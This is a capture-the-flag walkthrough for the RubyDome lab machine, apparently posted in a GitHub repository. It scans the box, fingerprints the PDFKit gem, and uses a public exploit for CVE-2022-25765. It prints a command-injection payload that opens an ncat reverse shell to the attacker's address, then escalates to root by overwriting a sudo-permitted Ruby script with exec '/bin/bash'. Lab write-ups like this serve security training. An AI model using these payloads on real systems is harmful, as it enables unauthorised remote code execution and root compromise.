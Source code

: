 _____
# Walkthrough for RubyDome

## Enumeration

- Running a full port scan on `nmap`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 844f9c9e49bbd201bc740395a88d7c11 (ECDSA)
|_  256 311878726c1a0b920b83caff4da2e84a (ED25519)
3000/tcp open  http    WEBrick httpd 1.7.0 (Ruby 3.0.2 (2021-07-07))
|_http-server-header: WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)
|_http-title: RubyDome HTML to PDF
MAC Address: 08:00:27:99:9A:FD (Oracle VirtualBox virtual NIC) Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- Port 3000,22 are open. Heading to `http://192.168.1.33:3000`, we see a webpage with a form to convert a webpage to pdf.
- It had the title `RubyDome HTML to PDF`.
- If I input `https://www.google.com` and click `Convert to PDF`, it redirects me `http://192.168.1.33:3000/pdf`. The pdf contains the content of `https://www.google.com`.
- If I invoke an error, then I can enumerate the service used to convert to pdf. Since the html page contained a URL Validation. I intercepted the request with Burp Suite and modified the url to `ssdnf`.
- It responds with `500` status code. The error message contains `PDFKit::ImproperWkhtmltopdfExitStatus at /pdf`. This means the service is using `PDFKit` gem.
- If we search for pdfkit on exploit-db, we can find a [CVE-2022–25765](https://www.exploit-db.com/exploits/51293) exploit. It is a remote code execution exploit.

## Exploitation

- I downloaded the exploit to my machine and then ran the following command after starting a netcat listener on port 1234.

```c
┌──(root💀kali)-[~/boxes/rubydome]
└─# python3 exploit.py  -w 'http://192.168.1.33:3000/pdf' -p url  -c 'ncat -e /bin/bash 192.168.1.99 1234'

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-|       / / / / |/ /  _/ ___/ __ / _ / _ 
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....

UNICORD: Exploit for CVE-2022–25765 (pdfkit) - Command Injection
OPTIONS: Custom Command Send to Target Website Mode
PAYLOAD: http://%20`ncat -e /bin/bash 192.168.1.99 1234`
WARNING: Wrap custom command in "quotes" if it has spaces.
WEBSITE: http://192.168.1.33:3000/pdf
POSTARG: url'
```

```c
┌──(root💀kali)-[~/boxes/rubydome]
└─# nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.99] from (UNKNOWN) [192.168.1.33] 48464
whoami
andrew
```

## Privilege Escalation

Taking a look at sudo entries for user andrew we find the following.

```c
$ sudo -l
Matching Defaults entries for andrew on rubydome:
    env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin, use_pty

User andrew may run the following commands on rubydome:
    (ALL) NOPASSWD: /usr/bin/ruby /home/andrew/app/app.rb
```

This means that andrew is able to run `app.rb` with binary `ruby` with root privileges without having a need of password.

We can simply add our malicious payload to `app.rb` and can execute the app.rb file with root privileges.

```
echo 'exec "/bin/bash"' > app.rb
sudo /usr/bin/ruby /home/andrew/app/app.rb
id
uid=0(root) gid=0(root) groups=0(root)
```